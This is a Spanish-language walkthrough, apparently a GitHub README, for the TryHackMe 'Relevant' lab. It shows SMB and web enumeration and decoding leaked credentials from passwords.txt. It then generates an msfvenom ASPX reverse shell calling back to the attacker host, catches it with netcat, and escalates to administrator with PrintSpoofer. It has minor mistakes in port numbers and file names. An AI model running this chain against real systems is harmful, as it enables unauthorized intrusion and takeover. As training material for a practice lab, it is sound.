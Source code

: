 # Guía de Explotación - TryHackMe Relevant

## 1. Reconocimiento

Iniciamos el reconocimiento con un escaneo de Nmap utilizando el siguiente comando:

```bash
nmap -sC -A -Pn IP_MAQUINA_ATACADA
```

El escaneo revela los siguientes puertos abiertos:
- **80/TCP** (HTTP - Servidor Web IIS)
- **139/TCP** (RPC - Microsoft Windows RPC)
- **139/TCP** (SMB - Server Message Block)
- **335/TCP** (SMB - Server Message Block)
- **3389/TCP** (RDP - Escritorio Remoto)
- **49663/TCP** (HTTP - Servidor Web IIS)

![alt text](./assets/image.png)

## 2. Explotacion

Vamos a explotar el SMB, para ello vamos a usar la herramienta `smbclient`.

Al ejecutar el siguiente comando, se revelarán los recursos compartidos disponibles en el destino:

```bash
smbclient -L \\\\IP_MAQUINA_ATACADA\\
```

![alt text](./assets/image-1.png)

Encontramos que hay acción llamada `nt4wrksv`.

Para llevar a cabo una enumeración más completa de este recurso compartido, tendremos que especificar el nombre del recurso compartido de la siguiente manera:

```bash
smbclient \\\\IP_MAQUINA_ATACADA\\nt4wrksv
```

![alt text](./assets/image-2.png)

Hemos obtenido con éxito acceso a la acción de SMB.

Vemos un archivo interesante, `passwords.txt`, nos lo descargamos y lo visualizamos.

```bash
get passwords.txt
cat passwords.txt
```

![alt text](./assets/image-3.png)

Lo desciframos con [CyberChef](https://gchq.github.io/CyberChef/)


![alt text](./assets/image-4.png)

```txt
Bob - !P@$$W0rD!123
```

![alt text](./assets/image-5.png)

```txt
Bill - Juw4nnaM4n420696969!$$$
```

Vamos ahora a mirar su pagina web que tenia alojada, y que vimos en el escaneo de `nmap`.

![alt text](./assets/image-6.png)

La pagina principal es la pagina por defecto de Windows ISS, por lo que vamos a utilizar `gobuster` para enumerar todos los directorios.

```bash
gobuster dir -u http://IP_MAQUINA_ATACADA:49663/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

foto

Vemos que lleva el mismo nombre de recurso compartido SMB, intentemos agregar `/passwords.txt` a la URL para ver si podemos acceder a ella y, de hecho, podemos ver su contenido:

![alt text](./assets/image-7.png)

Ya sabemos que el SMB se alojan en la web, lo que podría servir como nuestro punto de entrada utilizando una `ReverseShell`.

Vamos a usar `msfvenom` para generar una reverse shell, y poder luego subirla al SMB.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP_MAQUINA_KALI LPORT=5619 -f aspx > reverseshell.aspx
```

![alt text](./assets/image-8.png)

Ahora, cargamos este archivo en el recurso compartido SMB mediante el comando `PUT`, pero primero podremos el puerto configurado a escuchar.

```bash
nc -lvnp 5619
put revereshell.aspx
```

![alt text](./assets/image-9.png)

Ahora podemos navegar a `http://IP_MAQUINA_ATACADA:49663/nt4wrksv/reverseshell.aspx`

Y cuando cargue, volvemos al puerto en escucha, y vemos que hemos obtenido acceso.

![alt text](./assets/image-10.png)

Ahora vamos a acceder al escritorio del usuario Bob, y veremos la primera flag.

```bash
cd C:\Users\Bob\Desktop
more user.txt
```

![alt text](./assets/image-11.png)

## 3. Escalada de privilegios

Vamos a verificar los privilegios del usuario actual, para ello utilzaremos el comando:

```bash
whoami /priv
```

![alt text](./assets/image-12.png)

Aquí podemos observar que el `SeImpersonatePrivilege` está habilitado. Esto me llamó la atención porque su descripción indica `Suplantar a un cliente después de la autenticación`. Esto sugiere que es posible que tengamos la oportunidad de suplantar al administrador.

Investigando por Google, vemos que se puede vulnerar. [Github](https://github.com/k4sth4/PrintSpoofer).

Ahora vamos a descargarnos el .exe, y vamos a meterlo en la maquina windows atacada.

```bash
git clone https://github.com/k4sth4/PrintSpoofer
cd PrintSpoofer
smbclient \\\\IP_MAQUINA_ATACADA\\nt4wrksv
put PrintSpoofer.exe
```

![alt text](./assets/image-13.png)

Ahora vamos ejecutarlo usando el siguiente comando:

```bash
cd C:\inetpub\wwwroot\nt4wrksv
.\PrintSpoofer.exe -i -c cmd
```

Y como podemos ver obtenemos permisos de administrador.

Ahora ya solo vamos al escritorio del Administrador, y veremos la ultima flag.

```bash
cd C:\Users\Administrator\Desktop
more root.txt
```

![alt text](./assets/image-14.png)

¡Máquina comprometida con éxito!